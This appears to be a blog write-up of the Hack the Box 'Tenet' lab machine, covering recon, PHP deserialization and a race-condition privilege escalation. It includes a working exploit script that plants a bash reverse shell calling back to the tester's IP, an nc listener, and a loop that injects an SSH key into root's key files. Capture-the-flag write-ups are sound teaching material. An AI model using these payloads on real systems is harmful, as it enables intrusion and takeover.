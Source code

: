 +++
author = "Nick"
categories = ["hack the box", "Linux", "medium", "serialization", "PHP", "PHP Deserialization", "ssh"]
date = 2021-06-12T15:00:00Z
description = ""
draft = false
thumbnail = "/images/2021/06/tenet.png"
slug = "hack-the-box-tenet"
summary = "Welcome back! Today we will be doing the Hack the Box machine - Tenet. This is listed as a medium Linux box, let's see what's in store!"
tags = ["hack the box", "Linux", "medium", "serialization", "PHP", "PHP Deserialization", "ssh"]
title = "Hack the Box - Tenet"
url = "/hack-the-box-tenet"

+++


Welcome back! Today we will be doing the Hack the Box machine - Tenet. This is listed as a medium Linux box, let's see what's in store!

As usual, start the recon with `nmap`.

```
Nmap scan report for 10.10.10.223
Host is up (0.048s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Not much of a path forward, let's see what we can find on port 80. When we browse over to port 80, we see a standard `Apache` install page. We'll start sniffing around with `gobuster` to see what we can find.

Command:
`gobuster dir -u 'http://10.10.10.233' -w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt -t 60`

Nothing out of the ordinary was found, damn. A quick vhost enumeration with `nmap` didn't reveal anything either. In this case we're just going to add tenet.htb to our host lists to see if anything resolves.

Sure enough we get a blog site. We'll repeat the same `gobuster` command from about but using our vhost.

Command:
`gobuster dir -u 'http://10.10.10.233' -w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt -t 60`

The enumeration shows us that we've working with a Wordpress site. Digging around gives us two users, `protagonist` and `neil`. Neil gives us one comment in particular that is interesting:

![](/images/2021/06/image.png)

So, we should start looking for `.php` and `.bak` / `.back` files. As well as any items named `sator`. Since this list is small, we can check these by hand by checking our vhost and IP for these file names. The reason we do both IP and Vhost is because there are possibly more Vhosts than we know that could resolve to the IP.

Sure enough, the `10.10.10.223/sator.php` finds a hit:

![](/images/2021/06/image-1.png)

Along side that, so does the `.bak`:

![](/images/2021/06/image-2.png)

Now that we've downloaded the file, we can take a look at it.

![](/images/2021/06/image-3.png)

Looks like we're taking a repo, `arepo`, which is serialized and unserializing it. Looks like we're using a magic method here, `__destruct()`. `PHP Deserialization` is a common thing to see in HTB as well as other CTF's. It's also still realivant to real life applications (unfortunately). Here's some more info on the topic:

* https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/PHP.md
* https://kishanchoudhary.com/OSWE/php_obj.html
* https://notsosecure.com/remote-code-execution-via-php-unserialize/

We have a few ways to leverage this. We can create a script to call to the `sator.php` URL and run it with PHP locally to gain an RCE that way, or we can can create a serialized value and feed it to `sator.php` URL, let it create the RCE file and then browse to it.

First, let's create the script, which we just copy the first part of the above script:

```php
<?php
class DatabaseExport
{
    public $user_file = 'tenet_5.php';
    public $data = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/10.10.14.89/7070 0>&1\'"); ?>';

        public function __destruct()
        {
                file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
                echo '[] Database updated';
        }
}

$url = 'http://10.10.10.223/sator.php?arepo=' . urlencode(serialize(new DatabaseExport));
$r = file_get_contents("$url");
$r = file_get_contents("http://10.10.10.223/tenet_5.php");

?>
```
I really dislike `PHP`, just saying. What we did here is simply added a `URL` variable and a `response` variable to take our serialized data and feed it to the endpoint. You could just get the output of the function and `curl` to the endpoint to trigger it as well.

Command:
`nc -lvnp 7070`
`php tenet.php`

![](/images/2021/06/tenetshell.gif)

We get a shell back! Now we can start to look around and enumerate internally. Right where we land when we get a shell, we see a directory called `Wordpress`. Inside there's the `wp-config.php` file, with credentials for `neil`.

![](/images/2021/06/image-4.png)

Now we can try to login via `ssh` as `neil`. It works, we're in as `neil` and grab the `users.txt` flag! The first thing we always do once we get a user foothold on a box is `sudo -l`. This gives us an idea:

![](/images/2021/06/image-5.png)

We check the script, the `addKey()` function is our target in this case.

![](/images/2021/06/image-6.png)

We can write a `while` loop to keep adding our `ssh` key to any ssh files in tmp. First generate a new ssh key:

Command:
`ssh-keygen`

Now we can write our script:

```bash
while true; do echo "SSH-KEY-HERE" | tee /tmp/ssh* > /dev/null; done
```

Once we run the command, we open a new terminal and try to connect with our new key.

Command:
`ssh -i id_rsa root@tenet.htb`

Boom, we get in!

![](/images/2021/06/image-7.png)

Another fun box down! If you found this write-up useful, send some respect my way:[https://app.hackthebox.eu/profile/95635](https://app.hackthebox.eu/profile/95635)

